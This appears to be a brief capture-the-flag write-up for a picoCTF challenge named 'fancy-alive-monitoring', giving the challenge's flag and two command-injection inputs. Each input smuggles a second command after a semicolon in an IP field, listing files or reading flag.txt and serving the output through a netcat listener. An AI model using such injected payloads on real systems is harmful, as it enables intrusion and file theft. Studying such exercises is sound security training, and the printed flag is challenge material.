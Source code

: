 # fancy-alive-monitoring

List files: `ip=0.0.0.0;ls -la | nc -l -p 12345`

Read flag: `ip=0.0.0.0;cat flag.txt | nc -l -p 12345`

Flag: `picoCTF{n3v3r_trust_a_b0x_36d4a875}``